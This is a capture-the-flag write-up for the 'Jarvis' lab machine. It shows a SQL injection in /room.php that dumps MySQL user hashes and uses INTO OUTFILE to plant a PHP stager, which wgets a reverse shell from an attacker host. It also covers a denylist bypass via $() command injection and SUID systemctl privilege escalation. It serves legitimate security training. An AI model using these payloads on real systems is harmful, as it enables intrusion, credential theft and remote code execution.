# Jarvis

## Summary

**Vulnerability Exploited:** SQLi in /room.php

**Vulnerablity Explanation:** A SQL injection vulnerability in the /room.php script on the web server allows an attacker to dump sensitive database information and even write a web shell to the server.

**Privilege Escalation Vulnerability:** /bin/systemctl SUID

## Penetration

### Initial Foothold



We find a hotel web page on the main web server.



Gobuster finds a /phpmyadmin installation, which suggests MySQL is being used on the server.



Playing with the /room.php script, we find it is vulnerable to SQL injection through its cod parameter. Enumerating with the typical "order by x" trick, we find that the output has seven fields, and fields 2 and 4 are text fields. We can enumerate the database in through these fields. For example, we can dump the database usernames and passwords with

**10.10.10.143/room.php?cod=-1+union+all+select+1,User,3,Password,5,6,7+from+mysql.user--**



Crackstation cracks this password easily.



We could use this password to log into /phpmyadmin and attempt to get a shell that way. However, we can also use the SQLi vulnerability to write a shell to the web server using the MySQL outfile functionality. It's a bit tricky to write a full reverse php shell in this way, but we can use the following code to write a first stage that will download our typical php reverse shell from our web server to the victim's.

**http://10.10.10.143/room.php?cod=-1+union+all+select+1,2,3,%27%3C?php%20system(%22wget%20http://\<attacker ip\>/shell.php%22);?%3E%27,5,6,7+into+outfile+%27/var/www/html/stage.php%27--**

Visiting /stage.php downloads the full shell, which can then be launched from /shell.php.



### User Flag



Www-data is able to execute a certain python script as pepper with no password. Investigating the script more closely shows that it can be used to execute ping on user input.



The script makes an attempt to sanitize user input to prevent unexepected code execution with a denylist. However, as is typical for a denylist, not every malicious character is excluded. We can still execute arbitrary code using the $(\<code\>) instruction. Using $(/bin/bash) would be simple enough but seems to (at least sometimes) cause unexpected behavior. Instead we can write a malicious script to get a launch a new reverse shell, download it to the victim with wget, and execute it.



(Note that the version of socat used here is [statically compiled](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat). There's probably no reason to use socat here besides my personal preference, so feel free to use any other kind of reverse shell.)





### Root Proof



/bin/systemctl runs with SUID, which is a well-known privilege escalation vulnerability. (Normally, we could have skipped moving laterally to the pepper account and gone straight from www-data to root, but www-data could not execute systemctl.) The exploit from [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/) needs some significant tweaking. In particular, it seems that neither the evil service file, nor the script it executes on startup, nor anything called by that script can be in the /tmp directory.



